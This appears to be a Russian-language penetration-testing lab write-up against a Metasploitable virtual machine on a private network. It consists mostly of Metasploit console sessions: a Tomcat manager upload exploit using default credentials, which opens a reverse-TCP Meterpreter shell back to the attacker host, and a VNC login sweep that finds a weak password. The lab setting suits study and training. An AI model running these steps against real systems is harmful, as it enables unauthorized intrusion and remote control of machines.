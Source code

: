 ##### tomcat

Попробуем проэксплуатировать уязвимость tomcat

```bash
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhost 192.168.122.138
rhost => 192.168.122.138
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 8180
rport => 8180
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost 192.168.122.102
lhost => 192.168.122.102
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.122.102:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying HYKhJwkD8rFxGo36cOI9UFIV...
[*] Executing HYKhJwkD8rFxGo36cOI9UFIV...
[*] Undeploying HYKhJwkD8rFxGo36cOI9UFIV ...
[*] Undeployed at /manager/html/undeploy
[*] Sending stage (58037 bytes) to 192.168.122.138
[*] Meterpreter session 2 opened (192.168.122.102:4444 -> 192.168.122.138:36424) at 2025-03-15 05:36:49 +0300

meterpreter > sysinfo
Computer        : metasploitable
OS              : Linux 2.6.24-16-server (i386)
Architecture    : x86
System Language : en_US
Meterpreter     : java/linux
meterpreter > 
```

В результате атаки мы получили доступ к целевой ВМ и можем управлять ей через meterpreter.

##### vnc

Так же удалось получить доступ к ВМ через VNC

```bash
msf6 > use auxiliary/scanner/vnc/vnc_login
msf6 auxiliary(scanner/vnc/vnc_login) > set rhost 192.168.122.138
rhost => 192.168.122.138
msf6 auxiliary(scanner/vnc/vnc_login) > set THREADS 20
THREADS => 20
msf6 auxiliary(scanner/vnc/vnc_login) > run

[*] 192.168.122.138:5900  - 192.168.122.138:5900 - Starting VNC login sweep
[+] 192.168.122.138:5900  - 192.168.122.138:5900 - Login Successful: :password
[*] 192.168.122.138:5900  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

